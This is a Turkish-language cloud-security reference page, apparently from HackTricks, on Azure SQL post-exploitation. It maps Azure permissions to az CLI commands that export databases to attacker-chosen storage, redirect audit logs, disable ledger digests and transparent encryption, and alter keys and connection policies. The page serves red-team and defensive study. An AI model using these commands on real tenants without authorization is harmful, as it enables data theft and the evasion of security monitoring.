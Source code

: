 # Az - SQL Veritabanı Sonrası Sömürü

{{#include ../../../banners/hacktricks-training.md}}

## SQL Veritabanı Sonrası Sömürü

SQL Veritabanı hakkında daha fazla bilgi için kontrol edin:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/databases/read`, `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`

Bu izinlerle, bir saldırgan, ele geçirilmiş ortamda veritabanları oluşturabilir ve güncelleyebilir. Bu sonrası sömürü etkinliği, bir saldırgana kötü niyetli veriler ekleme, veritabanı yapılandırmalarını değiştirme veya daha fazla kalıcılık için arka kapılar ekleme imkanı verebilir; bu da operasyonları kesintiye uğratabilir veya ek kötü niyetli eylemleri mümkün kılabilir.
```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```
Bu izinlerle (`Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`) silinmiş bir veritabanını geri yükleyebilirsiniz:
```bash
az sql db restore \
--dest-name <new_database_name> \
--name <original_database_name> \
--resource-group <resource_group> \
--server <server_name> \
--deleted-time "<deleted_time_ISO_format>"

```
### `Microsoft.Sql/servers/elasticPools/write` && `Microsoft.Sql/servers/elasticPools/read`

Bu izinlerle, bir saldırgan ele geçirilmiş ortamda elasticPools oluşturabilir ve güncelleyebilir. Bu post-exploitation etkinliği, bir saldırgana kötü niyetli veriler ekleme, veritabanı yapılandırmalarını değiştirme veya daha fazla kalıcılık için arka kapılar ekleme imkanı verebilir, bu da operasyonları kesintiye uğratabilir veya ek kötü niyetli eylemleri mümkün kılabilir.
```bash
# Create Elastic Pool
az sql elastic-pool create \
--name <new-elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--edition <edition> \
--dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
--name <elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--dtu <new-dtu-value> \
--tags <key=value>
```
### `Microsoft.Sql/servers/auditingSettings/read` && `Microsoft.Sql/servers/auditingSettings/write`

Bu izinle, bir Azure SQL Server'daki denetim ayarlarını değiştirebilir veya etkinleştirebilirsiniz. Bu, bir saldırganın veya yetkili bir kullanıcının denetim yapılandırmalarını manipüle etmesine olanak tanıyabilir, bu da izleri örtbas etme veya denetim günlüklerini kontrolü altındaki bir konuma yönlendirme potansiyeline sahiptir. Bu, güvenlik izlemeyi engelleyebilir veya eylemleri takip etmesine olanak tanıyabilir. NOT: Azure SQL Server için Blob Depolama kullanarak denetimi etkinleştirmek için, denetim günlüklerinin kaydedilebileceği bir depolama hesabı eklemeniz gerekir.
```bash
az sql server audit-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--state Enabled \
--storage-account <storage_account_name> \
--retention-days 7
```
### `Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read`, `Microsoft.Sql/servers/connectionPolicies/read` && `Microsoft.Sql/servers/connectionPolicies/write`

Bu izinle, bir Azure SQL Server'ın bağlantı politikalarını değiştirebilirsiniz. Bu yetenek, sunucu düzeyindeki bağlantı ayarlarını etkinleştirmek veya değiştirmek için kullanılabilir.
```bash
az sql server connection-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--connection-type <Proxy|Redirect|Default>
```
### `Microsoft.Sql/servers/databases/export/action`

Bu izinle, bir Azure SQL Server'dan bir veritabanını bir depolama hesabına dışa aktarabilirsiniz. Bu izne sahip bir saldırgan veya yetkili kullanıcı, veritabanından hassas verileri, kontrol ettikleri bir konuma dışa aktararak sızdırabilir ve bu da önemli bir veri ihlali riski oluşturur. Bunu gerçekleştirebilmek için depolama anahtarını bilmek önemlidir.
```bash
az sql db export \
--server <server_name> \
--resource-group <resource_group_name> \
--name <database_name> \
--storage-uri <storage_blob_uri> \
--storage-key-type SharedAccessKey \
--admin-user <admin_username> \
--admin-password <admin_password>

```
### `Microsoft.Sql/servers/databases/import/action`

Bu izinle, bir veritabanını Azure SQL Server'a içe aktarabilirsiniz. Bu izne sahip bir saldırgan veya yetkili kullanıcı, potansiyel olarak kötü niyetli veya manipüle edilmiş veritabanları yükleyebilir. Bu, hassas verilere erişim sağlamak veya içe aktarılan veritabanına zararlı betikler veya tetikleyiciler yerleştirmekle sonuçlanabilir. Ayrıca, bunu kendi sunucunuza Azure'da içe aktarabilirsiniz. Not: Sunucu, Azure hizmetlerinin ve kaynaklarının sunucuya erişmesine izin vermelidir.
```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri `https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac`
```
### `Microsoft.Sql/servers/connectionPolicies/write` && `Microsoft.Sql/servers/connectionPolicies/read`

Bu izinlerle, bir kullanıcı bir Azure SQL sunucusunun bağlantı politikalarını değiştirebilir ve alabilir. Bu izinler, birinin istemcilerin sunucuya nasıl bağlandığını değiştirmesine olanak tanır—yönlendirme veya proxy gibi yöntemler arasında seçim yaparak—yanlış yapılandırıldığında güvenliği zayıflatmak, trafiği yönlendirmek veya hassas verileri ele geçirmek için istismar edilebilir.
```bash
az sql server conn-policy update \
--resource-group <resource_group> \
--server <server_name> \
--connection-policy <policy>
```
### `Microsoft.Sql/servers/keys/write` && `Microsoft.Sql/servers/keys/read`

Bu izinlerle, bir kullanıcı bir Azure SQL Server ile ilişkili şifreleme anahtarlarını güncelleyebilir ve alabilir. Bu anahtarlar genellikle şifreleme yoluyla hassas verilerin güvenliğini sağlamak için kullanılır, bu nedenle bunların manipüle edilmesi, yetkisiz şifre çözme veya anahtar döngüsü değişikliklerine izin vererek veri güvenliğini tehlikeye atabilir.
```bash
az sql server key create \
--resource-group MyResourceGroup \
--server MyServer \
--kid "https://mykeyvault.vault.azure.net/keys/mykey/1234567890abcdef
```
### `Microsoft.Sql/servers/databases/ledgerDigestUploads/disable/action`, `Microsoft.Sql/locations/ledgerDigestUploadsAzureAsyncOperation/read`, `Microsoft.Sql/locations/ledgerDigestUploadsOperationResults/read`

Bu izin, bir Azure SQL Veritabanı için Ledger Digest'i devre dışı bırakma izni verir; bu, verilerin bütünlüğünü doğrulayan kriptografik özet kayıtlarının Azure Blob Storage'a periyodik olarak yüklenmesini durdurur.
```bash
az sql db ledger-digest-uploads disable \
--name ledgerDB \
--resource-group myResourceGroup \
--server my-sql-server
```
### `Microsoft.Sql/servers/databases/transparentDataEncryption/write`, `Microsoft.Sql/locations/transparentDataEncryptionAzureAsyncOperation/read`, `Microsoft.Sql/servers/databases/transparentDataEncryption/read`

Bu izin, yetkili bir kullanıcıya veya saldırgana Azure SQL veritabanında Şeffaf Veri Şifrelemesi (TDE) ayarlarını etkinleştirme, devre dışı bırakma veya değiştirme yetkisi verir; bu da şifreleme yapılandırmalarını değiştirerek veri güvenliğini etkileyebilir.
```bash
az sql db tde set \
--database <database-name> \
--resource-group <resource-group-name> \
--server <server-name> \
--status <Enabled|Disabled>
```
{{#include ../../../banners/hacktricks-training.md}}
